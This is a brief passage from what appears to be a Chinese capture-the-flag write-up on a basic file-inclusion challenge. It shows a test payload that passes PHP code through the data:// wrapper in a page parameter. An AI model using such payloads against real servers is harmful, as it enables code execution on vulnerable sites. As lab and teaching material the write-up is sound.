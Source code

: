 ![upload successful](./images/pasted-900.png)
成功拿到key

# 34223 基础题目三：文件包含

测试一下data协议成功
`index.php?page=data://text/plan,<?php phpinfo(); ?>`
![upload successful](./images/pasted-901.png)

